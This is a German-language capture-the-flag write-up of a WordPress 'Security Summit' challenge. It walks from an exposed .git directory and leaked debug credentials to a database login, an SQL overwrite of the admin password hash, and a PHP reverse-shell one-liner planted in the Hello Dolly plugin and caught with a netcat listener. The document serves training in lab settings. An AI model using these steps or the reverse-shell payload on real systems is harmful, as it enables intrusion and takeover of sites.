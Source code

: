 # Security Summit

> There is a new webpage about an upcoming conference.

Für diese Challenge haben wir Zugriff auf eine Wordpress-Webseite und eine Datenbank. Die Webseite informiert über den anstehenden Security Summit des HackHigh Insitute. Für **nur** 2.000€ kann man teilnehmen. Schnäppchen.

![](screenshots/Pasted%20image%2020230315084339.png)


Beim Umschauen auf der Seite finden wir schonmal einen Benutzernamen: `sec-admin`. Ansonsten ist auf den ersten Blick nichts auffällig. Auch wenn eine aufmerksame Hackerin bereits beim ersten Posting über den Satz `"we switched over to a versioned approach of our installation and assets via git"` gestolpert wäre.

Für Wordpress-Blogs ist [wpscan](https://wpscan.com/wordpress-security-scanner) ein unverzichtbares Tool. Es kommt mit Kali Linux und kann sofort und ohne API-Token benutzt werden. Man kann allerdings auch ein kostenloses Konto anlegen und mit dem API-Token täglich bis zu 75 Requests an die wpscan Datenbank senden für bessere Ergebnisse. 

In diesem Fall liefert `wpscan` allerdings keine brauchbaren Ergebnisse. Die Wordpress Version ist aktuell und auch sonst scheint nichts auffällig zu sein. Ein Directory Scan (z.B. `dirb <URL>`) zeigt aber schnell etwas Brauchbares an: `+ http://10.65.59.68/.git/HEAD (CODE:200|SIZE:21)`. Jetzt ist also auch die nicht ganz so aufmerksame Hackerin auf das git-Verzeichnis gestoßen.

An dieser Stelle musste ich erstmal recherchieren und bin dabei auf diesen sehr guten Blogeintrag gestoßen: [infosecwriteups.com/exposed-git-directory-exploitation](https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75) In diesem wird wiederum auf die [GitTools](https://github.com/internetwache/GitTools) verwiesen. Mit dem `gitdumper` lässt sich ein `.git` repository von einer Homepage herunterladen. (Das dauert unter Umständen lange. Zeit für einen Kaffee oder eine der anderen Challenges.)

![](screenshots/Pasted%20image%2020230315091131.png)

Jetzt kann man sich zum Beispiel den letzten Commit anschauen:

![](screenshots/Pasted%20image%2020230315092728.png)

`add debug file with password` klingt genau nach dem, was wir suchen. Das Repository lässt sich mit `git restore .` auf den Zustand des letzten Commits bringen. Dort findet man dann die eben erwähnte debug file mit einem Benutzernamen und einem Passwort:

![](screenshots/Pasted%20image%2020230315093049.png)


Und auch die Datei `wp-config.php` hält Interessantes bereit:
```
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wordpress' );

/** Database password */
define( 'DB_PASSWORD', getenv('WP_DB_PASSWORD') );
```

 Aber erstmal einen Blick auf die Debug-Seite werfen. Tatsächlich wird hier nach einem Login gefragt.
![](screenshots/Pasted%20image%2020230315093832.png)

Mit den Daten aus der `debug.php` kann man sich hier einloggen und stößt auf eine default php Seite die uns viele Informationen über das zugrunde liegende System liefert. Unter anderem haben wir hier Einblick in die Umgebungsvariablen und damit dem Passwort für die Datenbank, das gleichzeitig die erste Flag ist.

![](screenshots/Pasted%20image%2020230315094331.png)


Hiermit und mit den Daten aus der `wp-config.php` lässt sich nun mit `mysql -u wordpress -h <ip> -P 3306 -D wordpress -p` bei dem DB-Server anmelden.

- `show tables;` zeigt unter anderem eine Tabelle `wp_users`
- `select * from wp_users;` zeigt genau einen Benutzer: sec-admin und einen zugehörigen Passwort-Hash

Hier habe ich verschiedene Dinge ausprobiert, von denen das Letzte erfolgreich war:
1. Ich habe versucht, den Passwort-Hash zu knracken, kein Erfolg
2. Ich habe einen neuen Benutzer angelegt
	1. dafür habe ich auf https://asecuritysite.com/hash/phpasseinen Passwort Hash generiert
	2. `INSERT INTO wp_users (user_login, user_pass, user_registered) VALUES ('test', '$P$5ZDzPE45CpsDdVTlB.VHHns6sOXNp4/', 2023-03-02');`
	3. nach dem Einloggen hatte ich keinen Zugriff auf's Dashboard
3. Ich habe den Passwort Hash des Users sec-admin zu einem mir bekannten Passwort geändert
	1. dafür habe ich auf https://asecuritysite.com/hash/phpasseinen Passwort Hash generiert
	2. `update wp_users set user_pass='$P$5ZDzPE45CpsDdVTlB.VHHns6sOXNp4/' where id=1;`
	3. BINGO!

Als Admin eingeloggt auf dem Dashboard habe ich geschaut, ob es gegebenenfalls ausnutzbare installierte Plugins gibt. Tatsächlich findet man ein Plugin das sich nach kurzer Recherche als geeignet für eine PHP-Reverse-Shell zeigt.

![](screenshots/Pasted%20image%2020230315095812.png)

Unter `Tools -> Plugin File Editor` lässt sich die Datei `hello.php` bearbeiten. Hier kann man zum Beispiel einen Reverse Shell Oneliner einfügen. Eine gute Quelle dafür ist immer [swisskeyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). Ich habe mich für `$sock=fsockopen("<my-ip>",4444);$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);` entschieden und es vor die erste Funktion `hello_dolly_get_lyric()` kopiert. Mit `nc -lnvp 4444` einen Listener erstellt, das Plugin aktiviert ud die Reverse Shell erhalten. Die zweite FLag findet man nach kurzem Suchen dann unter `/flag/here_you_go`.

![](screenshots/Pasted%20image%2020230315100636.png)
